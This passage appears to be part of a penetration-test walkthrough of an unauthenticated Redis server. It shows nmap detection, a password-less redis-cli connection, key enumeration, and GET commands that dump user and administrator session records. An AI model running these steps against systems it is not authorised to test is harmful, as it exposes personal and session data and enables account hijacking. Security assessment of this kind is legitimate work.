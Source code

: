 #### **Phase 1: Redis Service Discovery and Access Testing**
```bash
# Step 1: Redis service detection
nmap -p 6379 -sV --script redis-info 192.168.1.102

# Service enumeration results:
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 6.2.6
| redis-info:
|   Version: 6.2.6
|   Operating System: Linux 5.4.0-74-generic x86_64
|   Architecture: 64 bits
|   Process ID: 1234
|   Used CPU (sys): 1.45
|   Used CPU (user): 2.31
|   Connected clients: 2
|   Connected slaves: 0
|   Used memory: 2.35M
|   Role: master

# Step 2: Attempt direct connection (no authentication)
redis-cli -h 192.168.1.102

# Connection success verification:
192.168.1.102:6379> PING
PONG

192.168.1.102:6379> INFO server
# Redis version=6.2.6
# os=Linux 5.4.0-74-generic x86_64
# arch_bits=64
# multiplexing_api=epoll
# process_id=1234
# run_id=a1b2c3d4e5f6789012345678901234567890abcd
# tcp_port=6379

# 🚨 Security Issue Identified:
# ✅ Redis accessible without authentication
# ✅ Server information disclosed
# ✅ Administrative commands available
```

#### **Phase 2: Redis Data Enumeration and Analysis**
```bash
# Step 3: Database size and key analysis
192.168.1.102:6379> DBSIZE
(integer) 847

192.168.1.102:6379> KEYS *session*
1) "user_session:12345"
2) "user_session:67890"
3) "admin_session:99999"
4) "user_session:54321"

# Step 4: Examine session data for sensitive information
192.168.1.102:6379> GET user_session:12345
"{\"user_id\":12345,\"username\":\"jsmith\",\"email\":\"john.smith@company.com\",\"role\":\"user\",\"login_time\":\"2024-01-15T10:30:00Z\",\"ip_address\":\"192.168.1.50\"}"

192.168.1.102:6379> GET admin_session:99999
"{\"user_id\":1,\"username\":\"admin\",\"email\":\"admin@company.com\",\"role\":\"administrator\",\"login_time\":\"2024-01-15T09:15:00Z\",\"ip_address\":\"192.168.1.45\",\"privileges\":[\"read\",\"write\",\"delete\",\"admin\"]}"
```